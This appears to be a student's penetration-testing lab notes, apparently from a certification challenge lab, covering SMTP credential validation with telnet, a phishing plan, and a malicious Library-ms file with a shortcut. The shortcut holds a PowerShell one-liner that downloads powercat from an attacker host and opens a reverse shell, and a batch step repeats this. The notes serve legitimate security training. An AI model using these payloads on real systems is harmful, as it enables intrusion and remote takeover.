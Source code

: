 ![[Pasted image 20230925090348.png]]![[Pasted image 20230925084536.png]]
- We have our list of users gathered from all the 245 - 249 machines so we have a chance to potentially phish someone using the maildmz creds we got from the 249 git repo.
- To authenticate to SMTP server to validate creds, I used the following commands:
	- telnet 192.168.x.189 25
	- EHLO maildmz@relia.com
	- AUTH LOGIN
	- base64 encoded username (maildmz)
	- base64 encoded password
![[Pasted image 20230925090510.png]]
![[Pasted image 20230925090851.png]]
---------------------------------------------------------------------------------------

Start on Page 346 on building out config.Library-ms, building our malicious file and a shortcut link as well. In my shortcut link, I used:
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.x.x:8000/powercat.ps1'); powercat -c 192.168.x.x -p 4444 -e powershell"
![[Pasted image 20231002103202.png]]
I needed to have my wsigidav running in order to do this
![[Pasted image 20231002103302.png]]
![[Pasted image 20231002103335.png]]

Create a new item, 
![[Pasted image 20231203143616.png]]

Give it a name and run a batch command to grab powercat and call back to use
![[Pasted image 20231203143646.png]]


![[Pasted image 20231203143510.png]]


Got a callback!
![[Pasted image 20231203143520.png]]


Got user!
![[Pasted image 20231203143823.png]]